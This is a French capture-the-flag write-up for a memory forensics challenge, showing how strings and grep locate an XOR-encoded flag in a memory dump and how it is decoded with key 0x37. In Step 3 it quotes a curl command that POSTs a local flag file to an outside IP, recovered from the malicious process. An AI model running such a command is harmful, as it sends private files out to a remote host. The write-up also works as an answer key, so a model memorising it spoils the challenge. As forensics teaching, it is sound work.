


> **Catégorie : Forensics / Analyse mémoire**
> Flag chiffré en XOR (clé 0x37) retrouvé dans un dump mémoire, à côté des traces d'exfiltration réseau d'un processus malveillant.

## Résumé

| Champ | Valeur |
|---|---|
| **Type** | Memory forensics + déchiffrement XOR simple |
| **Fichier fourni** | `phantom_process_forensics.zip` → `memory.dump` |
| **Source** | [cyberini.com/ctfs](https://cyberini.com/ctfs/assets/phantom_process_forensics.zip) |
| **Outils clés** | `strings`, `grep`, CyberChef |
| **Clé de chiffrement** | XOR `0x37` |
| **Flag** | `CTF{phant0m_pr0cess_4nalys1s}` |

---

## Énoncé

> Une machine a été compromise par un attaquant très furtif. Nous avons pu extraire un dump mémoire (`memory.dump`) du système suspect. L'analyse montre qu'un processus inconnu a tourné en arrière-plan, a établi une communication réseau et a lu un fichier contenant le flag. Votre mission : retrouver le flag.

Le scénario décrit un processus malveillant qui **lit** un fichier flag puis l'**exfiltre** via le réseau — orientant naturellement l'analyse vers la recherche de références au fichier flag et à une éventuelle communication sortante dans le dump.

---

## Méthodologie

### Étape 1 — Extraction de l'archive

```bash
unzip phantom_process_forensics.zip
```
```
Archive:  phantom_process_forensics.zip
  inflating: memory.dump
```

### Étape 2 — Premier réflexe : `binwalk`

```bash
binwalk memory.dump
```
```
DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
```

Résultat vide — **comportement normal et attendu** pour un dump mémoire brut. Contrairement à un conteneur structuré (ZIP, image, PDF), un dump mémoire ne contient pas de signatures de fichiers imbriqués à détecter : c'est un flux continu de pages mémoire brutes. `binwalk` n'est donc pas l'outil pertinent ici ; on bascule directement sur une inspection textuelle.

### Étape 3 — Recherche de chaînes lisibles liées au scénario

```bash
strings memory.dump | grep flag
```
```
CY/home/user/.secret_data/flag.txt
curl -X POST http://198.51.100.42/api/leak -d @/home/user/.secret_data/flag.txt
```

> **Confirmation du scénario**
> Ces deux lignes confirment exactement la description de l'énoncé : le chemin du fichier flag (`/home/user/.secret_data/flag.txt`) et la commande d'exfiltration réseau utilisée par le processus malveillant (`curl` vers `198.51.100.42/api/leak`), preuve de la communication réseau évoquée.

### Étape 4 — Recherche du flag lui-même

```bash
strings memory.dump | grep FLAG
```
```
ENC_FLAG_HEX=7463714c475f565943075a6847450754524444680359565b4e4406444aY
ENC_FLAG_HEX=deadbeefcafebabe
```

Deux résultats, un seul pertinent :

> **Leurre identifié**
> `ENC_FLAG_HEX=deadbeefcafebabe` est un placeholder factice classique (valeur `deadbeefcafebabe` largement utilisée comme exemple générique en programmation/debug), à écarter immédiatement — sa taille et son contenu ne correspondent à aucune donnée chiffrée réaliste dans ce contexte.

Le candidat sérieux :
```
ENC_FLAG_HEX=7463714c475f565943075a6847450754524444680359565b4e4406444aY
```

### Étape 5 — Recherche d'indices de déchiffrement dans le dump

Poursuite de l'inspection manuelle du dump (`strings memory.dump | less`), révélant des fragments de code source résiduels en mémoire :

```c
for (int i=0;i<n;i++){ out[i]=in[i]^0x37; }
```

Et un indice explicite laissé dans le dump :
```
DECODE_HINT: iterate bytes and xor with 0x37
```

> **Méthode de déchiffrement confirmée**
> La boucle en C confirme un chiffrement **XOR simple**, octet par octet, avec la clé **`0x37`**. Le hint le confirme explicitement, cohérent avec le fragment de code trouvé indépendamment.




### Étape 6 — Déchiffrement avec CyberChef

Traitement de `7463714c475f565943075a6847450754524444680359565b4e4406444a` (la donnée hex, en excluant le `Y` final résiduel qui n'appartient pas à l'encodage) :

**Recipe CyberChef :**
1. **From Hex** — convertit la chaîne hexadécimale en octets bruts
2. **XOR** — clé `0x37`, format Hex

```
Input:  7463714c475f565943075a6847450754524444680359565b4e4406444a
From Hex → bytes bruts
XOR 0x37 (byte par byte) → texte en clair
```

> **Flag obtenu**
> `CTF{phant0m_pr0cess_4nalys1s}`

**Vérification manuelle (calcul octet par octet) :**

| Hex | XOR 0x37 | Caractère |
|---|---|---|
| 0x74 | 0x43 | C |
| 0x63 | 0x54 | T |
| 0x71 | 0x46 | F |
| 0x4c | 0x7b | { |
| ... | ... | ... |

Le calcul complet confirme `CTF{phant0m_pr0cess_4nalys1s}`.

---

## Analyse technique

Un **dump mémoire** (RAM capture) contient l'état complet de la mémoire vive d'un système au moment de la capture : processus en cours, chaînes de caractères manipulées, fragments de code, buffers réseau, et parfois même du code source résiduel si un interpréteur ou un débogueur était actif. Contrairement à un système de fichiers, il n'a pas de structure interne standardisée scannable par signature — d'où l'inefficacité de `binwalk` et la pertinence d'une recherche textuelle brute (`strings`/`grep`) comme première approche.

Le chiffrement **XOR à clé unique répétée** (ici un seul octet `0x37` appliqué à chaque byte du flag) est une méthode de chiffrement volontairement simple et réversible, typique des challenges CTF de difficulté easy/medium : `chiffré = clair XOR clé`, donc `clair = chiffré XOR clé` (propriété d'involution du XOR — appliquer la même clé deux fois annule l'opération).

Le scénario complet (processus furtif → lecture du flag → exfiltration réseau via `curl`) est cohérent avec un comportement de malware/backdoor classique, où le flag chiffré retrouvé en mémoire représente la donnée que le processus s'apprêtait à exfiltrer, avant chiffrement ou après un chiffrement appliqué côté attaquant pour masquer la donnée en transit ou en mémoire.

---

## Enseignements méthodologiques (pour la compet')

- [x] `binwalk` n'est pas pertinent sur un dump mémoire brut — passer directement à `strings`/`grep` ciblé sur des mots-clés du scénario (`flag`, `FLAG`, `password`, `key`, `http`, `curl`, etc.)
- [x] Toujours croiser l'énoncé avec les résultats de `strings` : ici la mention "communication réseau" + "lu un fichier" a orienté directement vers `grep flag`, qui a confirmé le chemin ET la commande d'exfiltration
- [x] Se méfier des valeurs placeholder classiques (`deadbeef`, `cafebabe`, `00000000`, `ffffffff`) qui apparaissent souvent comme leurres ou artefacts de code non liés au flag réel
- [x] Un dump mémoire peut contenir des fragments de **code source** résiduels (si compilation/interprétation en cours au moment du dump) — ne pas se limiter à chercher du texte "évident", parcourir aussi le contexte autour des hits `grep` avec `strings | less` pour repérer indices et hints volontairement laissés
- [x] CyberChef (recipe **From Hex → XOR**) est l'outil de référence pour ce genre de déchiffrement rapide sans avoir à écrire de script

## Commandes clés à retenir

```bash
unzip <archive.zip>
binwalk <dump>                      # souvent vide sur un dump mémoire brut, normal
strings <dump> | grep -i flag       # recherche ciblée sur mots-clés du scénario
strings <dump> | less               # inspection manuelle pour repérer hints/code résiduel
```

**CyberChef** (https://gchq.github.io/CyberChef/) — Recipe : `From Hex` → `XOR` (clé en Hex, ex: `37`)

**Alternative en Python (si CyberChef indisponible)** :
```python
data = bytes.fromhex("7463714c475f565943075a6847450754524444680359565b4e4406444a")
flag = bytes([b ^ 0x37 for b in data])
print(flag.decode())
```
